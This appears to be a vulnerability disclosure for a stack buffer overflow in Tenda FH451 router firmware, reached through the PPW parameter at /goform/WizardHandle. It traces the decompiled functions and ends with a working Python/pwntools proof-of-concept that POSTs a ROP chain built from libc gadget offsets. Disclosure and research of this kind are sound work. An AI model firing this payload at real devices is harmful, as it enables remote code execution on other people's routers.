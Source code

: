 # Shenzhen Jixiang Tengda Technology Co., Ltd. FH451 has a Remote Code Execution vulnerability

**Vulnerability URL**: [http://0.0.0.0:80/goform/WizardHandle](http://0.0.0.0:80/goform/WizardHandle)

**Firmware Download Link:** [https://www.tenda.com.cn/material/show/1629](https://www.tenda.com.cn/material/show/1629)

## Vulnerability Analysis
The vulnerability occurs in the `fromAddressNat` function.

![Image 1](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle1.png)

![Image 2](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle2.png)

![Image 3](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle3.png)

This function accepts the `WANT` and `WANS` parameter from a POST request. Within `v45` == 2, this function accepts the `PPW` parameter from a POST request, which is assigned to `sub_3C434(v30, v5)`;. However, since the user has control over the input of `PPW`, the function `decodePwd()` leads to a buffer overflow. The user-supplied `PPW` can exceed the capacity of the `v5` array, which can lead to a program crash or potential exploitation.  
The disassembled code of the function `sub_3C434` is as follows. It can be observed that this function does not perform bounds checking. It copies the `result` parameter byte-by-byte into the `a2` pointer parameter, which may potentially lead to a stack overflow.
![Image 4](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle4.png)

Cross-referenced location: from the `fromWizardHandle` function, routed to `WizardHandle`, at line 18.
![Image 5](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle5.png)

Further cross-referenced to the `sub_64EAC` function, with attention to lines 44 and 47.
![Image 6](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromAddressNat3.png)

It can be determined that the vulnerability occurs at the page path `goform/WizardHandle`.

## payload
```python
import requests
from pwn import *

libc = ELF('./squashfs-root/lib/libc.so.0')
system_offset = libc.symbols["system"]
base = 0x3fe36000

system_addr = base + system_offset
puts = base+libc.symbols['puts']
str = b"hello-I-am-fzz\x00"
mov_r0 = base+0x00040cb8 # mov r0, sp; blx r3;
pop_r3 = base+0x00018298 # pop {r3, pc};
payload = b'a'*524 + p32(pop_r3)+p32(puts)+p32(mov_r0)+str

ip = '0.0.0.0:80'
url = f"http://{ip}/goform/WizardHandle"
data = {"WANS":"-1","WANT":"2","PPW":payload}
ret = requests.post(url, data)
```

# reproduce
![Image 7](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle6.png)
![Image 8](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle7.png)
![Image 9](https://github.com/zezhifu1/cve_report/blob/main/FH451/image/fromWizardHandle8.png)
